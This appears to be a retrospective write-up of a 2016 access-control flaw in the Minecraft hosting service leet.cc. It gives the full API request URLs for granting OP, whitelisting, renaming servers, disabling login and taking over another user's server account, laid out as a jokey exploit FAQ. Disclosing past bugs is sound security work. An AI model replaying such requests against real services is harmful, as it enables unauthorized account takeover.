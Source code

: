 ```yaml
---
title: leet.cc account takeover (old bug)
---
```


The domain name
`leet.cc` was an Minecraft bedrock server hosting provider. (Service seems to no longer exist)  
The following bug allowed getting OP just by knowing someone's server domain.

This bug is from 2016 the same time they had their database breached <https://news.softpedia.com/news/data-for-6-million-minecraft-gamers-stolen-from-leet-cc-servers-507445.shtml> where someone uploaded a PHP shell to their website... This is from memory I may get stuff wrong.

I would hope it's fixed now 🙂 but then this is `leet.cc`

# Methodology

Reverse engineer the Android app using online apk decompilers and look at the network traffic using <https://www.telerik.com/fiddler> to see if the API did authentication correctly.  
Credit: <https://www.youtube.com/watch?v=LbZqaLKS7V4>

Server IDs (Incremental number) are used to identify what server to act on for the API.  
This could be gotten easily by using `https://leet.cc/verifyServerDomain.php?domain=<domain>`  
The user ID which used to be optional was the user's email address or their device ID.

# The exploit

In order to exploit this one would make a request to:

`https://mainapi.leet.cc/actionNew.php?cmd=<command>&userID=<userID>&params[]=<serverID>&params[]=<commandParameter>&versionCode=176&password=something_secret&client=google-free&k=<Base 64 encoded MD5 Hash of part of the URL>&sys=<Base 64 encoded MD5 Hash of part of the URL>`
No one knows why `k` and `sys` were there.

And now the how to exploit FAQ 🙂

# I want OP!

- `<command>` is `changeOP`
- `<commandParameter>` is your in-game name

# I'm not whitelisted. What should I do?

- `<command>` is `changeWhitelistPlayers`
- `<commandParameter>` is your in-game name

# The server name is missing a duck emoji, no problem!

- `<command>` is `changeServerName`
- `<commandParameter>` is 🦆

# This old login using `/login <password>` is too annoying.

- Just set `setUserRegistration` to off!

# I wanted an account takeover!

Okay send a request to `https://mainapi.leet.cc/serverLogin.php?serverEmail=<attacker email>&serverPassword=<attacker password>&registerServerID=<serverId>&registerUserID=<userId>`
